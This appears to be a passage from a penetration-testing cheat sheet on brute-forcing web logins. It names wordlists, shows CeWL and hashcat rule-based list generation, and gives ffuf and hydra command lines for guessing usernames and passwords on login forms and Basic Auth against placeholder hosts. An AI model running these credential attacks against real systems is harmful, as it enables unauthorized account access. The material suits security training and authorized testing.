 - **[Rockyou](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz)**
- **[SecLists](https://github.com/danielmiessler/SecLists)**
- **[CeWL](https://github.com/digininja/CeWL)**

    Generate the custom wordlist from the target web page.

    ```sh
    cewl https://vulnerable.com > scraped_words.txt
    ```

If we can predict the target password reasonably, we can generate passwords from the password.

```bash
echo -n 'passw0rd' > password.txt
hashcat --stdout password.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

<br />

### Using Ffuf

```sh
# -fc: Filter HTTP status code
ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401

# Basic Auth
ffuf -u https://admin:FUZZ@example.com/ -w wordlist.txt -fc 401
```

Also we can use raw request file of Burp Suite.

1. Send request in Burp Suite.
2. Right-click on the request screen.
3. Click **"Copy to file"** in the menu.
4. Edit the raw file to change target value to **"FUZZ"** keyword.

After that, we can use it in the **`ffuf`** command.

```bash
# Interate with Burp Suite raw request
ffuf -u http://example.com/login -request raw.txt -x http://127.0.0.1:8080 -w wordlist.txt
```

<br />

### Using Hydra

```sh
# Cracking username
hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
# Cracking password
hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

# HTTPS (https-post-form)
hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"


# Cracking the Authorization or WWW-Authenticate in the request header.
hydra -L usernames.txt -P passwords.txt <target-ip> http-get
```
